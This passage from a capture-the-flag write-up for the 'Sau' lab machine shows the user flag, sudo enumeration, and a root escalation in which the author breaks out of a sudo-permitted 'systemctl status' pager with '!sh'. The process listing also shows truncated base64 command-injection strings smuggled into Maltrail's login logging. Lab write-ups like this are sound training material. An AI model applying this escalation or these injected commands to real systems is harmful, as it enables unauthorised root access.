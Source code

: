 **and just let's get the user flag:**

```bash
puma@sau:~$ cat user.txt
4d7166dbc2bb3e5b9bb68186071acf21

```
## PIVOTING

In this machine is not needed.

## PRIVILEGE ESCALATION

Usually I start with some basic enumeration commands, like sudo -l

**What is sudo command**

The sudo command allows us to run programs with the security privileges of another user (by default, as the superuser).

Click on the link to learn more about it:  [https://kb.iu.edu/d/amyi](https://kb.iu.edu/d/amyi){:target="_blank"}

**We run the sudo -l command** to check what sudo commands are allowed to be invoked by puma.

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$

```

sudo -l output shows  that puma user is able to run this command /usr/bin/systemctl status trail.service 

And systemclt requires root permisions in order to be executed, so it means puma user is able to run systemcl status without the need to provide root's password

Another search on internet, and we find this article:

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/){:target="_blank"}

Just we need to run the command with sudo and then break it with !sh, as systemctl is running as root, that will return a root shell

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service 
trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2023-12-21 14:30:30 UTC; 4h 6min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 50 (limit: 4662)
     Memory: 74.2M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1262 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1267 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1270 sh
```